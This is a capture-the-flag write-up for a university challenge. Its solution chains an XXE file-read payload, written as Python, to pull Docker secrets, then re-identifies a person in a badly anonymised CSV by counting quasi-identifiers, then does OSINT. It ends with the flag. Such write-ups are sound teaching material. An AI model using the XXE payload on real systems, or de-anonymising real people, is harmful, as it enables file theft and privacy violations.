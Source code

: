 # Private Area

**Author:** thiefCatcher and Rackham
**Category:** misc
**Difficulty:** hard

## Description

In the Cloud Infrastructure course, students just found the advantages of using recent platforms for their container orchestration.
They understood the concepts, and were highly enthusiastic about isolation and secret management features.

## Solve

This challenge is divided into three stages. The first part starts with a web page vulnerable by XXE injection.

![Captura de ecra](https://user-images.githubusercontent.com/17878072/146542767-5548f2a7-a096-4bb2-922e-3a466c583dd1.png)

To get the files from the machine, you can use the following snippet of code:

```python
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
safe_string = urllib.parse.quote_plus(f'<?xml version="1.0" ?><!DOCTYPE r [<!ENTITY sp SYSTEM "file://{filename}">]><form><username>&sp;</username><password>p</password></form>')
r = s.post(f"{url}/login/", data='xml='+safe_string, headers=headers)
```

The goal of this first phase is to access the docker secrets. So we can create a token as admin and access the '/private' link. This page contains the following information:

```html
<head>
    <link rel="stylesheet" href="/static/css/style.css"></link>
</head>

<body>
<div class="wrapper fadeInDown">
  <div id="formContent">
    <h2 class="active"> Private Data </h2>
    <div>
      <h3>static/1BKTYGPU8V4HBX6ZANJO8PIUD3NUSA/dump.zip</h3>
    </div>
  </div>
</div>
</body>
```

The second stage requires downloading the dump.zip file at `http://193.137.173.211:2006/static/1BKTYGPU8V4HBX6ZANJO8PIUD3NUSA/dump.zip`
Inside this zip file, there are 3 files:

  - contacts.csv: which contains an id, name, surname and the social network of the subjects
  - leak.csv: which is supposed to be anonymized, but it was incorrectly anonymized. 
  - README.md: a readme file with some hints about what should be done.

```
# About

We did a mistake during the anonymization process of this data. The person responsible for anonymizing the dataset did not respect Mister K5. If you find the right person, you will find his/her social network. The flag is there.
```

One of the most used anonymization techniques is k-anonymity. One of its principles indicates that an anonymised dataset should have at least k records with the same quasi-identifiers. We can obtain that information by using the following command:

```
cat leak.csv |cut -d ',' -f 2,3,4 |sort |uniq -c |sort -n -r
```

The result of this operation is a female person with 25 years living in the zip-code area 3810-391 (25,female,3810-391). This quasi identifier only occurs 4 times, which does not respect the k-anonymization rule. By retrieving the 4 entries, we can see that there is one with a social_network_id, that we can correlate with the contacts.csv file. This way we obtain the Alina Petrov on Facebook.

```
$ cat leak.csv| grep 25,female,3810-391
NaN,25,female,3810-391,NaN
NaN,25,female,3810-391,NaN
NaN,25,female,3810-391,4KH3QS1HH0
NaN,25,female,3810-391,NaN
```

The third phase is based on OSINT and the goal is to find the flag on Alina's profile. This flag is in a video of DETI (the organizers' department)

## Flag

CTFUA{i_l0ve_Av3iro}
